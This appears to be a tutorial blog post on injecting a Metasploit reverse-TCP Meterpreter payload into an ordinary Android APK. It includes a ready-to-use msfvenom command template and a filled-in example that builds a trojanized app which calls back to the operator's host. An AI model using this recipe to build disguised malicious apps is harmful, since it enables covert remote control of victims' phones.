 ```yaml
---
layout: post
title: "Blog 11: Injecting Payloads into APK's"
---
```


One way that an attacker can gain access into another person's system is by injecting a payload into an otherwise innocent looking file. Unfortunately, mobile phones are in no way immune to such nefarious acts. More specifically, Android phones are much more vulnerable to issues like this considering that their app store isn't nearly as well regulated as the Apple App Store.

The process is fairly simple:
- Designate the type of payload (in this case, we are using a reverse TCP shell for android)
- Set a LocalHost IP (your IP, or the IP you plan to use for a loopback connection)
- Set the LocalHost port you want the connection to listen in on

You will be using the MetaSploit Framework for this example, which comes stock with Kali distro. Once you have Kali up and running, get any sample APK file, and use the following format to inject a payload and create a new APK as a result:

	$ msfvenom -x [PATH TO SAMPLE APK] -p android/meterpreter/reverse_tcp LHOST=[LOCAL IP ADDRESS] LPORT=[LOCAL PORT] -o [PATH/NAME FOR NEW APK]
	
To better visualize it, here's an actual sample command:

	$ msfvenom -x myoriginalapk.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=8888 -o /home/david/Desktop/mynewapk.apk
	
The flags explained:

- x = original file being used
- p = type of payload
- o = path to new apk

Now that we have our new APK set up, we need to go through a few more steps to be able to get any type of functionality. We can go over that it later posts, but this will get your started.

